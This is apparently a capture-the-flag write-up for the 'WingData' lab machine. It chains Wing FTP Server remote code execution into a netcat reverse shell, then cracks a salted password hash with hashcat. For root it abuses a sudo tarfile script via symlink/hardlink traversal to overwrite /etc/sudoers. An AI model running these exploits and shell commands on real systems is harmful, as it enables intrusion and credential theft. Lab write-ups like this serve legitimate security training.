


# WindData

## Recon

- I started with a quick all port scan with rustscan
```
 rustscan -a 10.129.2.140 -r 1-65535 --ulimit 5000
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
I scanned ports so fast, even my computer was surprised.

[~] The config file is expected to be at "/home/light/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.129.2.140:22
Open 10.129.2.140:80
```
- found two openports lets performa nmap scan with options **-A** 

```
nmap -A -p22,80 10.129.2.140 -oN nmap_scan
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-15 12:01 +0530
Nmap scan report for 10.129.2.140
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 a1:fa:95:8b:d7:56:03:85:e4:45:c9:c7:1e:ba:28:3b (ECDSA)
|_  256 9c:ba:21:1a:97:2f:3a:64:73:c1:4c:1d:ce:65:7a:2f (ED25519)
80/tcp open  http    Apache httpd 2.4.66
|_http-server-header: Apache/2.4.66 (Debian)
|_http-title: Did not follow redirect to http://wingdata.htb/
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running (JUST GUESSING): Linux 4.X|5.X|2.6.X|3.X (97%), MikroTik RouterOS 7.X (95%)
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3 cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:6.0
Aggressive OS guesses: Linux 4.15 - 5.19 (97%), Linux 5.0 - 5.14 (97%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (95%), Linux 2.6.32 - 3.13 (91%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.14 (91%), Linux 3.4 - 3.10 (91%), Linux 2.6.32 - 3.10 (91%), Linux 4.19 - 5.15 (91%), Linux 4.15 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   221.25 ms 10.10.14.1
2   221.29 ms 10.129.2.140

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.38 seconds
```
- web service running on port 80 lets see what it is . In the mean time i would like to perform a allport scan and a udp scan using nmap_scan.

- We cn see the domain wingdata.htb lets add it to our /etc/hosts file

```
echo "10.129.2.140 wingdata.htb" | sudo tee -a /etc/hosts 
```
- Web app enumeation

- The client portal in the above screenshot redirecting us to another url "http://ftp.wingdata.htb/"
- lets add this ftp domain to our /etc/hosts  file. 
- now visit the url . we are redirected to a login page. The site running a wing ftp server . you can even find the version 
```
Wing FTP Server v7.4.3
```
- Wing FTP Server is a free, easy-to-use, and secure FTP server software for Windows, Linux, and Mac OS
- The folloeing version is vulnerable to [CVE-2025-47812](https://www.sonicwall.com/blog/wing-ftp-server-remote-code-execution-cve-2025-47812). 
- which is a Unautenticated remote code execution  via username perameter. 
- **Flow of the vulnerability**
	- The above version relies on **strlen()** function from **C** to validates username. 
	- The function is vulnerable to **NULL-Byte** trucation(means treat null byte(%00) as end of a string). 
	- So any data after the null byte will be ignored. **username=admin%00ignores_anything**
	- So if we able to succefully authenticate to the server it create a **SESSION** variable which is written to a file .
	- The session file include the full username and it handles by **Lau** Scripting language.
	- paylaod: **username=admin%00lau_code.
	- So visting any authenticated page could execute the **lau code** leads to an **RCE**.

- you can find POC python script on [exploitDB](https://www.exploit-db.com/exploits/52347)
- In oder for attack to success we need a valid creds . wing ftp has **anonymous login** lets try it.
- Downlaod the script. 
```
 python3 Wingftp_RCE.py -u "http://ftp.wingdata.htb" -U anonymous -c whoami

[*] Testing target: http://ftp.wingdata.htb
[+] Sending POST request to http://ftp.wingdata.htb/loginok.html with command: 'whoami' and username: 'anonymous'
[+] UID extracted: f5e2cfd07a483486f2846063dd5cf60df528764d624db129b32c21fbca0cb8d6
[+] Sending GET request to http://ftp.wingdata.htb/dir.html with UID: f5e2cfd07a483486f2846063dd5cf60df528764d624db129b32c21fbca0cb8d6

--- Command Output ---
wingftp
----------------------
```
- We got commadn execution lets use to get a revshell.
```
python3 Wingftp_RCE.py -u "http://ftp.wingdata.htb" -U anonymous -c "nc 10.10.14.161 3333 -e /bin/bash"

[*] Testing target: http://ftp.wingdata.htb
[+] Sending POST request to http://ftp.wingdata.htb/loginok.html with command: 'nc 10.10.14.161 3333 -e /bin/bash' and username: 'anonymous'
[+] UID extracted: ae79a8cbbff0c1e2d56ac349ac0db91af528764d624db129b32c21fbca0cb8d6
[+] Sending GET request to http://ftp.wingdata.htb/dir.html with UID: ae79a8cbbff0c1e2d56ac349ac0db91af528764d624db129b32c21fbca0cb8d6
```
- Start you listener . and we got the shell .
```
nc -lnvp 3333
listening on [any] 3333 ...
connect to [10.10.14.161] from (UNKNOWN) [10.129.2.140] 47308
id
uid=1000(wingftp) gid=1000(wingftp) groups=1000(wingftp),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)
```
- Stabulize the revshell


## privilage escalation 

```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
wingftp:x:1000:1000:WingFTP Daemon User,,,:/opt/wingftp:/bin/bash
wacky:x:1001:1001::/home/wacky:/bin/bash
_laurel:x:999:996::/var/log/laurel:/bin/false
```
- We can see 3 user with shell.**wingftp,wacky,root**
- Inside **/opt/wftpserver/Data/1/users** we can find xml files for each user. 
```
wingftp@wingdata:/opt/wftpserver/Data/1/users$ ls
anonymous.xml  john.xml  maria.xml  steve.xml  wacky.xml
```
- Every file contians password hashes.
```
wingftp@wingdata:/opt/wftpserver/Data/1/users$ grep -r "<Password>"
maria.xml:        <Password>a70221f33a51dca76dfd46c17ab17116a97823caf40aeecfbc611cae47421b03</Password>
steve.xml:        <Password>5916c7481fa2f20bd86f4bdb900f0342359ec19a77b7e3ae118f3b5d0d3334ca</Password>
wacky.xml:        <Password>32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca</Password>
anonymous.xml:        <Password>d67f86152e5c4df1b0ac4a18d3ca4a89c1b12e6b748ed71d01aeb92341927bca</Password>
john.xml:        <Password>c1f14672feec3bba27231048271fcdcddeb9d75ef79f6889139aa78c9d398f10</Password>
```
- The hashes seems to sha256 lets try to crack the password hashes. 
- On enumerating other directories, directory path **/opt/wftpserver/lua** contains the **ServerInterface.lua** . this file reveals how the hases are generated from the password

```
if c_GetOptionInt(domain, DOPTION_ENABLE_PASS_SALTING) == 1 then
    local salt_string = c_GetOptionStr(domain, DOPTION_SALTING_STRING)
    temppass = user.password..salt_string
end

if c_GetOptionInt(domain, DOPTION_ENABLE_SHA256) == 1 then
    password_md5 = sha2(temppass)
end
```
- **Hash= SHA256(password + salt)**
- now we need to find the salt string.
- Inside **/opt/wftpserver/Data/1/settings.xml** we can find the salt_string.
```
wingftp@wingdata:/opt/wftpserver/Data/1$ cat settings.xml | grep -i "salt"
    <EnablePasswordSalting>1</EnablePasswordSalting>
    <SaltingString>WingFTP</SaltingString>
```
- now we know the salt and how the password hases are generated . so inorder to crack the hash. we need to append **WingFTP** to each password . 
- For that i am going to write a hashcat rule
```
$W$i$n$g$F$T$P
```
- In hashcat rule syntax **$x** means append x to the password.
- save the rule to a file, i saved it as wing.rule 
```
hashcat -m 1400 -a 0 hash_wacky.txt /usr/share/wordlists/rockyou.txt -r wing.rule
hashcat (v7.1.2) starting

nvmlDeviceGetFanSpeed(): Not Supported

CUDA API (CUDA 12.4)
====================
* Device #01: NVIDIA GeForce RTX 3050 Laptop GPU, 3814/3894 MB, 16MCU

OpenCL API (OpenCL 3.0 CUDA 12.4.131) - Platform #1 [NVIDIA Corporation]
========================================================================
* Device #02: NVIDIA GeForce RTX 3050 Laptop GPU, skipped

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #2 [The pocl project]
====================================================================================================================================================
* Device #03: cpu-haswell-AMD Ryzen 7 4800H with Radeon Graphics, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 793 MB (5757 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

Approaching final keyspace - workload adjusted.           

32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca:!#7Blushing^*Bride5WingFTP
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: 32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b87...a503ca
Time.Started.....: Sun Feb 15 16:54:45 2026 (1 sec)
Time.Estimated...: Sun Feb 15 16:54:46 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Mod........: Rules (wing.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........: 13409.6 kH/s (3.03ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 0/14344385 (0.00%)
Restore.Point....: 13631488/14344385 (95.03%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: 0877719441WingFTP -> $HEX[042a0337c2a156616d6f73210357696e67465450]
Hardware.Mon.#01.: Temp: 55c Util: 31% Core:1515MHz Mem:6000MHz Bus:8

Started: Sun Feb 15 16:54:44 2026
Stopped: Sun Feb 15 16:54:47 2026
```
 
- We got wacky user password "!#7Blushing^*Bride5"
***Note:Hashcat given "!#7Blushing^*Bride5WingFTP" as password but the orginal password is "!#7Blushing^*Bride5" because our wing.rule appends WingFTP to the password***

- ssh as wacky wit the above password
```
wacky@wingdata:~$ cat user.txt 
e19d76d50356bfb3fda6222a0818e493
```
**users.txt: e19d76d50356bfb3fda6222a0818e493**

## Root access

```
 sudo -l
Matching Defaults entries for wacky on wingdata:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User wacky may run the following commands on wingdata:
    (root) NOPASSWD: /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py *

```
- We can run a python script as root without password. let see what the script is about
```
#!/usr/bin/env python3
import tarfile
import os
import sys
import re
import argparse

BACKUP_BASE_DIR = "/opt/backup_clients/backups"
STAGING_BASE = "/opt/backup_clients/restored_backups"

def validate_backup_name(filename):
    if not re.fullmatch(r"^backup_\d+\.tar$", filename):
        return False
    client_id = filename.split('_')[1].rstrip('.tar')
    return client_id.isdigit() and client_id != "0"

def validate_restore_tag(tag):
    return bool(re.fullmatch(r"^[a-zA-Z0-9_]{1,24}$", tag))

def main():
    parser = argparse.ArgumentParser(
        description="Restore client configuration from a validated backup tarball.",
        epilog="Example: sudo %(prog)s -b backup_1001.tar -r restore_john"
    )
    parser.add_argument(
        "-b", "--backup",
        required=True,
        help="Backup filename (must be in /home/wacky/backup_clients/ and match backup_<client_id>.tar, "
             "where <client_id> is a positive integer, e.g., backup_1001.tar)"
    )
    parser.add_argument(
        "-r", "--restore-dir",
        required=True,
        help="Staging directory name for the restore operation. "
             "Must follow the format: restore_<client_user> (e.g., restore_john). "
             "Only alphanumeric characters and underscores are allowed in the <client_user> part (1–24 characters)."
    )

    args = parser.parse_args()

    if not validate_backup_name(args.backup):
        print("[!] Invalid backup name. Expected format: backup_<client_id>.tar (e.g., backup_1001.tar)", file=sys.stderr)
        sys.exit(1)

    backup_path = os.path.join(BACKUP_BASE_DIR, args.backup)
    if not os.path.isfile(backup_path):
        print(f"[!] Backup file not found: {backup_path}", file=sys.stderr)
        sys.exit(1)

    if not args.restore_dir.startswith("restore_"):
        print("[!] --restore-dir must start with 'restore_'", file=sys.stderr)
        sys.exit(1)

    tag = args.restore_dir[8:]
    if not tag:
        print("[!] --restore-dir must include a non-empty tag after 'restore_'", file=sys.stderr)
        sys.exit(1)

    if not validate_restore_tag(tag):
        print("[!] Restore tag must be 1–24 characters long and contain only letters, digits, or underscores", file=sys.stderr)
        sys.exit(1)

    staging_dir = os.path.join(STAGING_BASE, args.restore_dir)
    print(f"[+] Backup: {args.backup}")
    print(f"[+] Staging directory: {staging_dir}")

    os.makedirs(staging_dir, exist_ok=True)

    try:
        with tarfile.open(backup_path, "r") as tar:
            tar.extractall(path=staging_dir, filter="data")
        print(f"[+] Extraction completed in {staging_dir}")
    except (tarfile.TarError, OSError, Exception) as e:
        print(f"[!] Error during extraction: {e}", file=sys.stderr)
        sys.exit(2)

if __name__ == "__main__":
    main()
```
- Simply put, the script takes two arguments -b backup file name must follow a format (like backup_1.tar)
- -r restore directory name . name shoud be start with restore_ 
- The code bug exisits in **tar.extractall(path=staging_dir, filter="data")**
- I found that the **filter="data"** is actually used to prevent form path traversal, symlinks , device files etc.. but it failed to prevent. 
- **CVE-2025-4517/CVE-2025-4330**  path traversal and arbitrary file write.
- On doing some reasearch found that we can trick the the filter  to write our content to any file we want by using symilinks and hardlinks.
- I found a python poc script to exploit this [CVE-2025-4517](https://github.com/AzureADTrent/CVE-2025-4517-POC-HTB-WingData/blob/main/CVE-2025-4517-POC.py)


- I will simply explain the workflow here . 

- **need to exsaust the filter so it skip checking the path**
    - Creats a big directory name of lenght 156 in this case.
    - inside the directory[b*256] crete a symlink with name as "a" and it is pointing to the bigdirectory name.
    - inside bug directory we it creates another drectory with the same name as the big directory[b*156] inside this creats a symlinke b pointing to the big directory name.
    - The script has repeated the rocess up to 16 levels .
    - as it become so much work for the filter it skip filtering.
- **escaping**
    - now we have 16 directoried . in the bottom directory we create symlink escape point to (../*16)/etc . 
    - We performing 16 backtracking so we can escape our entire directries and finally get /etc
    - which menas when extracted the escape symlink points to /etc
- **file overwrite**
    - Now we place a hardlink sudoers_link on **root** of the directory pointing to escape/sudoers
    - as our escape symlink pointing to /etc 
    - the final will become /etc/sudoers
    - in the root of the firectory we create another test file with smae name sudoers_link and add our content to it. **wacky ALL=(ALL) NOPASSWD: ALL**
    - So we alredy have the hardlink with the same name so it simply rewrite the harlink which is pointing to the /etc/sudoers file .

- copy paste the python code to the attack box 
[screetnshot](Data/Wingdata4.png)

```
 python3 exploit.py --create-only

╔═══════════════════════════════════════════════════════════╗
║     CVE-2025-4517 Tarfile Exploit - WingData HTB          ║
║     Privilege Escalation via Symlink + Hardlink Bypass    ║
╚═══════════════════════════════════════════════════════════╝
    
[*] Target user: wacky
[*] Creating exploit tar for user: wacky
[*] Phase 1: Building nested directory structure...
[*] Phase 2: Creating symlink chain for path traversal...
[*] Phase 3: Creating escape symlink to /etc...
[*] Phase 4: Creating hardlink to /etc/sudoers...
[*] Phase 5: Writing sudoers entry...
[+] Exploit tar created: /tmp/cve_2025_4517_exploit.tar
[*] Deploying exploit to: /opt/backup_clients/backups/backup_9999.tar
[+] Exploit deployed successfully
[*] Triggering extraction via vulnerable script...
[+] Backup: backup_9999.tar
[+] Staging directory: /opt/backup_clients/restored_backups/restore_pwn_9999
[+] Extraction completed in /opt/backup_clients/restored_backups/restore_pwn_9999

[+] Extraction completed
[*] Verifying exploit success...
[+] SUCCESS! User 'wacky' added to sudoers
[+] Entry: wacky ALL=(ALL) NOPASSWD: ALL

============================================================
[+] EXPLOITATION SUCCESSFUL!
[+] User 'wacky' now has full sudo privileges
[+] Get root with: sudo /bin/bash
============================================================

[?] Spawn root shell now? (y/n): n
```
- The above command generated a tar file . cp it to the backups directory 

```
cp /tmp/cve_2025_4517_exploit.tar /opt/backup_clients/backups/backup_9999.tar
```
- Then extract the file 
```
sudo /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py \
  -b backup_9999.tar \
  -r restore_exploit
```
- lets check sudoers contetnt
```
cat /etc/sudoers
wacky ALL=(ALL) NOPASSWD: ALL
```
- We successfully overwrite sudoers files 
- lets get root access
```
sudo su
root@wingdata:/opt# cd /root
root@wingdata:~# cat root.txt 
67798fe888fb2a5f414716aff2a49db6
root@wingdata:~# 
```

**Root.txt: 67798fe888fb2a5f414716aff2a49db6